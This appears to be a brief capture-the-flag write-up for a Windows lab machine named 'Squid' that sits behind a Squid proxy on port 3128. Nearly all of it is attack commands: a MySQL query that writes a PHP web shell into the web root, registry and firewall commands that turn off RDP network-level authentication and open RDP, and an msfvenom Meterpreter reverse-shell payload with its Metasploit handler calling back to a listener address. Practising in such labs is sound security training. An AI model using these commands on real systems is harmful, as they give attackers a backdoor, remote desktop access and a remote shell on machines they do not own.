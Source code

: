 Title: Squid Machine
Date: 2024-05-19 19:10 
Category: HTB
Slug: squid


# SQUID - MACHINE / PG
#PG/easy_windows

This machine a proxy named squid that proxy all network traffic from outside . It operate on port 3128


#### Mysql 3306:

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

#### Disable NLA;
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```

#### Enable RDP on owned machine:
```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

```shell
netsh advfirewall firewall set rule group="remote desktop" new enable=yes

```
 
#### Reverse Shell with Meterpreter:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.17 LPORT=4444 --format=exe > evil.exe

```

```shell
msf5> use exploit/multi/handler
msf5> set payload windows/meterpreter/reverse_tcp
msf5> set LHOST 192.168.0.17
msf5> set LPORT 4444
msf5> run
```

